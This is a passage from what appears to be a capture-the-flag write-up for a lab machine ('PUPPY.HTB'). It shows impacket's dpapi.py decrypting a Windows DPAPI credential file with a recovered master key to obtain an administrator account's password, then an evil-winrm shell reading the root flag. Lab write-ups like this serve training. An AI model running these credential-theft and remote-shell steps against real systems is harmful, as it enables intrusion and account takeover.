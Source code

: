 ```console
Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

### Decrypting the credential file 
```console
$ python3 dpapi.py credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : [REDACTED]
```

We got the password for the user `steph.cooper_adm`, we can use this credentials to get the shell using `evil-winrm` and we can see in `Bloodhound` that this user is in `ADMINISTRATORS` group so we can access `Administrator` directory to get the root flag:
```console
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
7a2050dbb83f73da398b43a78443c1bb
```
